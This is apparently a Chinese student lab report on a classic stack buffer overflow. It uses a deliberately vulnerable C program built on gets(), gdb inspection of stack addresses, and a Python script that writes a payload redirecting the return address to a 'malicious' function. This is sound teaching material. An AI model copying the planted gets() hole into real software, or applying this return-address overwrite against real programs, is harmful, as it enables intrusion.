

# 实验六：简单栈溢出实验

## 实验步骤

### 设计受害程序

受害程序是一个简单的 C 程序，包含两个函数：`victim_function()` 和 `malicious_function()`。`victim_function()` 使用不安全的 `gets()` 函数读取用户输入到固定大小的缓冲区 `buffer[64]` 中，存在栈溢出漏洞。此次实验的目的，就是利用这个缓冲区漏洞，覆盖 `victim_function()` 的返回地址，让其返回到 `malicious_function()` 的入口地址，从而实现恶意行为。

```c
#include <stdio.h>

void malicious_function() {
    printf("Malicious function executed!\n");
    exit(0);
}

void victim_function() {
    char buffer[64];
    printf("Enter some text: ");
    gets(buffer);
    printf("You entered: %s\n", buffer);
}

int main() {
    printf("Starting victim program...\n");
    victim_function();
    printf("Exiting victim program...\n");
    return 0;
}
```

### 反汇编受害程序并构造恶意负载

使用 gdb 对受害程序进行反汇编：

```bash
gdb ./victim
```

在 `malicious_function()` 处设置断点：

```bash
(gdb) break malicious_function 
Breakpoint 1 at 0x40119e: file victim.c, line 4.
```

这说明，我们希望恶意调用的函数 `malicious_function()` 的函数入口地址为 `0x40119e`。

在 `victim_function()` 处设置断点：

```bash
(gdb) break victim_function 
Breakpoint 2 at 0x4011c3: file victim.c, line 10.
```

运行程序，程序将在 `victim_function()` 处停止，此时我们可以查看当前栈帧的情况：

```bash
(gdb) run
Starting victim program...

Breakpoint 2, victim_function () at victim.c:10
10          printf("Enter some text: ");
(gdb) info frame
Stack level 0, frame at 0x7fffffffd040:
 rip = 0x4011c3 in victim_function (victim.c:10); saved rip = 0x401227
 called by frame at 0x7fffffffd050
 source language c.
 Arglist at 0x7fffffffd030, args: 
 Locals at 0x7fffffffd030, Previous frame's sp is 0x7fffffffd040
 Saved registers:
  rbp at 0x7fffffffd030, rip at 0x7fffffffd038
```

这说明函数返回地址存放的地址为 `0x7fffffffd038`。

再查看 `buffer[]` 的首地址：

```bash
(gdb) print &buffer
$1 = (char (*)[64]) 0x7fffffffcff0
```

因此，`buffer[]` 的首地址为 `0x7fffffffcff0`。

### 构造恶意负载

`0x7fffffffd038` 和 `0x7fffffffcff0` 之差，就是我们需要填满的负载前缀。在前缀后加上 `malicious_function()` 的函数入口地址，就构造出了恶意负载。

```python
def p32(address):
    return address.to_bytes(4, byteorder='little')


if __name__ == "__main__":
    target_address = 0x40119e                   # malicious_function() 的函数入口地址
    offset = 0x7fffffffd038 - 0x7fffffffcff0    # 返回地址和 buffer[] 首地址之间的距离

    payload = b"A" * offset + p32(target_address)

    with open("payload.txt", "wb") as f:
        f.write(payload)

    print(f"Payload written to payload.txt: {payload}")
```

这样会把恶意负载输出到 `payload.txt` 中。

## 实验截图

以 `payload.txt` 为输入，运行 `./victim`：

```bash
cat payload.txt | ./victim
```

得到如下结果：



输出中含有 `Malicious function executed!`，这说明栈区溢出攻击成功。
